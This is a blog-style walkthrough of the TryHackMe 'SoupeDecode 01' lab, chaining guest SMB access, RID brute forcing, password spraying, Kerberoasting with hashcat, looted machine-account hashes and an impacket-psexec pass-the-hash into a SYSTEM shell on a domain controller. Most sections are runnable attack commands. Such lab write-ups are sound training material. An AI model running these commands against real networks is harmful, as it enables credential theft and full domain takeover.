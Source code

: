 ```yaml
---
title: "SoupeDecode 01(Easy) | Tryhackme"  # Post title
date: 2025-08-16          # Must match filename date
categories: [Tryhackme Writeups]         # Optional (max 2)
tags: [thm, windows]     # Optional (max 5-10)
author:               # Defaults to your config name
---
```


# Tryhackme — SoupeDecode Write-Up

Soupedecode turned out to be a really engaging Windows machine — both fun and full of learning moments. The challenge was to fully compromise the Domain Controller (DC), and the path to get there took me through several classic Active Directory techniques: careful enumeration, Kerberos abuse, password spraying, Kerberoasting, and finally wrapping it all up with a Pass-the-Hash attack.

What I liked about this box is how every small win led to the next step. Let me walk you through how I approached it.

## Reconnaissance

As always, I kicked things off with a full port scan:

```shell
sudo nmap -sCV 10.10.26.214 -p- --min-rate=1000 -oA scan
```
![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/1.png)

The results confirmed my suspicion — the target was part of an **Active Directory** environment (Kerberos, SMB, and LDAP all showing up).

To make my life easier, I added the domain to /etc/hosts:
```shell
sudo sh -c 'echo "10.10.26.214 SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL" >> /etc/hosts'
```

## First Steps – Guest Access

Since I had no creds to begin with, I tested the guest account with NetExec. To my surprise, it worked:
```shell
nxc smb SOUPEDECODE.LOCAL -u guest -p ''
```

Unfortunately, the shares available to Guest weren’t useful.

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/11.png)


## Enumerating Users

At this point, I needed usernames. I ran a **RID** brute force with Guest and got a huge dump of info:
```shell
nxc smb SOUPEDECODE.LOCAL -u guest -p '' --rid-brute
```

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/2.png)

It was messy, so I filtered it down to a clean list of usernames and saved them in users.txt using the following command:

```shell
nxc smb SOUPEDECODE.LOCAL -u guest -p '' --rid-brute | grep "SidTypeUser" | awk -F'\\\\' '{print $2}' | awk '{print $1}'
```

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/3.png)

Now I had something to work with.


## Looking for a Way In

My first thought was to check for AS-REP roasting opportunities. Sadly, no luck there.
```shell
 kerbrute userenum -d SOUPEDECODE.LOCAL --dc 10.10.26.214 users.txt
 ```
![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/4.png)


Instead, I went for a password spray using the classic username = password trick.
```shell
kerbrute passwordspray -d SOUPEDECODE.LOCAL --dc 10.10.26.214 --user-as-pass users.txt
```

And bingo — I landed a valid credential pair. This was my first breakthrough.

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/5.png)


## Poking Around SMB

With the new creds, I enumerated the shares again. This time, I had access to the Users share. Digging into one of the desktops, I grabbed my first flag (user.txt).

```shell
nxc smb SOUPEDECODE.LOCAL -u 'yb****' -p 'yb****' --shares

```

```shell
smbclient \\\\10.201.1.43\\Users -U soupedecode.local\\yb****
  
cd ybob317\Desktop  
get user.txt
```
That small win gave me the motivation to keep pushing.


## Kerberoasting Time

The next move was to see if the account I had, could pull down any Kerberos tickets. Using GetUserSPNs, I requested service tickets:
```shell
impacket-GetUserSPNs -request -dc-ip 10.10.26.214 SOUPEDECODE.LOCAL/yb****
```
The result was amazing — multiple SPNs(5).i saved them into a file **kerberoasting.tgs**

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/6.png)

threw them into Hashcat and after some time, I cracked one: credentials for the **file_svc** service account.
```shell
hashcat -a 0 -m 13100 kerberoasting1.tgs /usr/share/wordlists/rockyou.txt
```
![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/cracking1.png)

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/cracking2.png)

Another door unlocked.


## Backups Are Always Juicy

Using **file_svc** account, I checked shares again and noticed a backup share. 
```shell
nxc smb SOUPEDECODE.LOCAL -u file_svc -p 'Passw******' --shares
```
![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/7.png)


Inside the share, a file named **backup_extract.txt** caught my eye.

```shell
smbclient //10.10.26.214/backup -U file_svc
```

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/8.png)


Upon reading the file, it contained machine account hashes. I knew this could be big.
```shell
cat backup_extract.txt
```
![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/9.png)


## Testing Machine Accounts

I brute-forced through the machine accounts and eventually Got the credentials for the **FileServer$** machine account.
```shell
nxc smb SOUPEDECODE.LOCAL -u machine_accounts.txt -H machine_account_hashes.txt
```

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/10.png)

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/pwned.png)

This one had admin privileges. To double-check, I listed shares with the hash and saw I had access to ADMIN$. That was the confirmation I needed.
```shell
nxc smb SOUPEDECODE.LOCAL -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79*********' --shares
```
![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/share.png)


## The Final Push – Pass-the-Hash

Now it was time for the kill shot. I fired up Impacket’s PsExec with the FileServer$ hash:
```shell
 impacket-psexec 'SOUPEDECODE.LOCAL/FileServer$@10.10.26.214' -hashes :e41da7e79a4c76dbd9c**********
```
**WHY?**

When I confirmed that the FileServer$ machine account had admin privileges and I also had write access to the ADMIN$ share, I knew PsExec was my best bet.

For those unfamiliar, **PsExec** is a tool that lets you run commands on a remote Windows system if you’ve got administrative rights. It works by copying a small service over to the **ADMIN$** share and then executing it. Since I had the NTLM hash of the account, I didn’t even need the plaintext password — I could just use a Pass-the-Hash attack.

This was the cleanest and most reliable way to turn those credentials into a full SYSTEM shell on the Domain Controller. And that’s exactly what happened the moment I ran the PsExec command.

![My profile photo](/assets/images/posts/2025-08-16-SoupeDecode01/root.png)

And just like that — I had a **SYSTEM** shell on the Domain Controller.


## Reflection

Soupedecode was a rollercoaster. I started from almost nothing — just a guest login — and step by step worked my way up to full domain compromise.

What I took away:

Enumeration is everything. Don’t skip it.

Simple mistakes like weak service account passwords can unravel an entire domain.

Machine accounts can be as dangerous as user accounts when misconfigured.

This box really hammered home how small footholds can chain into full control. Definitely one of my favorites so far.